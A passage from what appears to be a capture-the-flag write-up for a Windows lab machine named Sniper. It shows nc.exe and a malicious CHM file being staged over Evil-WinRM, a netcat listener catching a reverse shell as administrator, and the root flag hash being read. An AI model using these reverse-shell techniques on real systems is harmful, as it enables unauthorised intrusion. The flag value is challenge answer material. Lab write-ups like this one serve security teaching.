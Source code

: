 Move `nc.exe` to `C:\programdata` and `doc.chm` to `C:\docs` and start a listener

```shell
*Evil-WinRM* PS C:\Users\Chris\downloads> cp nc.exe C:\programdata
*Evil-WinRM* PS C:\Users\Chris\downloads> cp doc.chm C:\docs
```

```shell
$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.151] 49711
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
sniper\administrator
```

## Post Exploitation

Get the flag

```shell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
3be869dfedc4788b9da4dfe192a5405e
```
